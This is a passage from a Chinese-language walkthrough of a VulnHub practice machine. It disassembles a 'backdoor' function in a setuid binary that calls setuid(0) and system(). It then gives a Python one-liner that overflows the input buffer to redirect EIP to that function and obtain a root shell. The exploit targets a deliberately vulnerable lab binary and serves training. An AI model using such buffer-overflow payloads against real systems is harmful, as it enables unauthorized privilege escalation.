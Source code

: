 发现了一个可疑函数 backdoor，查看其汇编代码：

```plain
gdb-peda$ disas backdoor
Dump of assembler code for function backdoor:
   0x08048676 <+0>: push   ebp
   0x08048677 <+1>: mov    ebp,esp
   0x08048679 <+3>: push   ebx
   0x0804867a <+4>: sub    esp,0x4
   0x0804867d <+7>: call   0x80485b0 <__x86.get_pc_thunk.bx>
   0x08048682 <+12>:    add    ebx,0x16c6
   0x08048688 <+18>:    sub    esp,0xc
   0x0804868b <+21>:    push   0x0
   0x0804868d <+23>:    call   0x8048530 <setuid@plt>
   0x08048692 <+28>:    add    esp,0x10
   0x08048695 <+31>:    sub    esp,0xc
   0x08048698 <+34>:    lea    eax,[ebx-0x13f8]
   0x0804869e <+40>:    push   eax
   0x0804869f <+41>:    call   0x80484f0 <system@plt>
   0x080486a4 <+46>:    add    esp,0x10
   0x080486a7 <+49>:    nop
   0x080486a8 <+50>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x080486ab <+53>:    leave  
   0x080486ac <+54>:    ret    
End of assembler dump.
```

backdoor 调用了 setuid 和 system 函数，也许能够获取到 root 权限的 shell，那么目标就变成了将 backdoor 的函数地址 0x08048676 溢出到 EIP 上。

按照要求编写输入字符串：

```plain
python -c "import struct;print('1\n1\n1\n1\n'+'A'*62+struct.pack('I',0x08048676))" > payload
cat payload - | ./add_record
```

[![](assets/1699406763-19d12ca11eae46692fde8fc236ec813f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107104550-c3361454-7d17-1.png)

将得到的 payload 作为输入执行 add\_record 程序后成功获取 root 权限

## 总结

这个 vulnhub 靶机环境比较综合，涉及 Web 及二进制两个方面，在专注一个方向的同时，需要能够对另一个方向有基本的认识与了解。在对目标进行测试时，需要抓住一切可能利用的二进制程序代码。
